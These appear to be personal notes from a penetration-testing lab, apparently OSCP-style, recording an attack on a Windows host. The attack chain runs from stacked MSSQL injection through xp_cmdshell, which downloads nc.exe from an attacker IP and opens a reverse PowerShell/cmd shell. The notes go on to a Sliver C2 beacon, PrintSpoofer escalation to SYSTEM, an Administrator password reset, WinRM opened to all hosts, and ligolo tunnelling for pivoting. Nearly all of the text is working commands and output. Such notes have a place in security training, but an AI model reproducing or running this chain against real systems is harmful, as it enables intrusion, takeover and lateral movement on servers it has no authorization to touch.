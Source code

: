 Attempting SQL injection on .121 at login.aspx to get a shell 
```
' EXECUTE sp_configure 'show advanced options', 1; --//
```
```
' RECONFIGURE; --//
```
```
' EXECUTE sp_configure 'xp_cmdshell', 1; --//
```
```
' RECONFIGURE; --//
```
```
' EXECUTE xp_cmdshell 'curl -o C:\Temp\nc.exe http://192.168.45.170:8080/windows/nc.exe'; --//
```
```
' EXECUTE xp_cmdshell 'C:\Temp\nc.exe -e powershell.exe 192.168.45.170 5555'; --//
```
OR
```
admin' EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXECUTE xp_cmdshell 'ping 192.168.45.170'; --//
```
Testing for ping traffic with 
```
' EXECUTE xp_cmdshell 'ping 192.168.45.170'; --//
```
- Receiving ping traffic with 
```
sudo tcpdump icmp
```
Didn't work but instead I tried to get a payload from the computer with the following and it worked 
```
' EXECUTE xp_cmdshell 'curl -o C:\Temp\nc.exe http://192.168.45.170:8080/windows/nc.exe'
```
Then I got a shell with 
```
' EXECUTE xp_cmdshell 'C:\Temp\nc.exe -e cmd.exe 192.168.45.170 5555'
```
Started sliver server and generated a  payload with 
```
http
```
```
https
```
```
generate beacon --http 192.168.45.170 --os windows -f exe 
```
moved this to my /var/www/html/windows directory and curled it on the machine and executed 
got to the beacons with 
```
beacons
```
```
use <ID>
```
to get out use 
```
background
```

whoami /priv output 
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
- This means we can execute printspoofer64.exe

- Output of printspoofer
```
.\print.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
nt authority\system

```
Find user or local or proof.txt 
```
Get-ChildItem -Path C:\ -Recurse -Filter "*.txt" | Where-Object { $_.Name -match "^(user|local|proof)\.txt$" } | Select-Object FullName
```
Found proof.txt in C:\\Users\\Administrator\\Desktop\\proof.txt
Reset the administrator password to password1
```
net user Administrator password1
```
Enable WinRM
```
Enable-PSRemoting -Force
```
```
Set-NetFirewallRule -Name 'WINRM-HTTP-In-TCP-PUBLIC' -Enabled True
```
Set trusted hosts to everyone
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '*' -Force
```
Gives me access via evil-winrm with 
```
evil-winrm -i 192.168.227.121 -u Administrator -p password1
```
ligolo instructions
```
sudo ip tuntap add user kali mode tun ligolo
```
on kali
```
ligolo-proxy -selfcert
```
on victim
```
agent.exe -connect <IP>:<PORT> -ignore-cert
```
on kali 
```
sudo ip route add <SUBNET>/24 dev ligolo
```
in ligolo
```
start
```
add a listener for reverse connections in kali ligolo type 
```
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
```
Use nc or socat on port 10000 to get reverse shell and send over traffic on port 30000 to the proxy on the victim machine and catch it on port 10000 locally